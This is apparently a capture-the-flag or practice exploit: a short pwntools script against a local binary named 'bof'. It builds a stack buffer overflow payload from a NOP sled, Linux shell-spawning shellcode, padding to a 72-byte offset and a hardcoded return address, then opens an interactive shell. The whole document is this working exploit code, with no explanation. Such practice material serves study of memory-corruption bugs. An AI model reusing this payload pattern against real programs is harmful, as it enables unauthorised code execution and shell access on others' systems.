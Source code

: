 ```c
from pwn import *

e = context.binary = ELF("./bof")
p = process(e.path)
libc = e.libc

shellcode = asm(shellcraft.amd64.linux.sh())
print(hex(int.from_bytes(shellcode, "big")))
print(shellcode)

payload = b"\x90"*8*3
payload += shellcode
payload += b"A"*(72-len(payload))
payload += p64(0x7fffffffe080)

input("Waiting...")
p.sendline(payload)
p.interactive()

```

